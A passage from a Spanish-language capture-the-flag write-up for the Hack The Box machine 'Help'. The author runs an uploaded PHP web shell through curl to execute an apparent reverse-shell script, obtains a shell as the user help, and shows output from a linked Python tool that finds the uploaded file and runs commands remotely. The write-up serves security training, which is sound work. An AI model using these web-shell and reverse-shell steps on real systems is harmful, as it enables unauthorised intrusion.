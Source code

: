 Y finalmente ejecutamos el script que subimos:

```bash
# bash /tmp/rere.sh
❱ curl "http://10.10.10.121/support/uploads/tickets/1ce35b9e8b7b6d3fd36c2ab9c8a52156.php?xmd=bash+/tmp/rere.sh" 
```

Esperamos un momento yyyy en nuestro listeneeeeeeer:

![170bash_helpRevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/help/170bash_helpRevSH.png)

Listones, estamos dentro del sistema como el usuario **help**, hagamos [tratamiento de la TTY](https://notes.dettlaff.xyz/recursos/tratamiento-de-la-tty) así evitamos preocuparnos por si ejecutamos `CTRL+C`, logramos tener histórico y además conseguimos una linda Shell :P

...

Es muy incómodo estar colocando `+` a cada espacio cada que queramos ejecutar algo en el sistema, además de tener que movernos al final de la cadena y ay no jajaj, aprovechemos la oportunidad y creémonos un script que:

* Nos encuentre el archivo con ayuda del timestamp.
* Y nos permita ejecutar comandos con comodidad.

> Intente hacer la creacion del ticket, pero el jugar con ese **catpcha** fue un poco doloroso, la mayoria de intentos son fallidos y va cambiando otro valor, así que F

Acá se los dejo (junto al archivo que deberíamos subir):

> [helpdeskFind_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/help)

```bash
❱ python3 helpdeskFind_RCE.py 
[+] Encontrando archivo: http://10.10.10.121/support/uploads/tickets/99500535e6ed7f2de07ad7b03c5791f7.php ✔
[+] Ejecutando id en el sistema: ✔

uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)

[+] A r0mp3r t0do!
```

```bash
❱ python3 helpdeskFind_RCE.py -c 'uname -a'
[+] Ejecutando uname -a en el sistema: ✔

Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

[+] A r0mp3r t0do!
```

tamos!

...
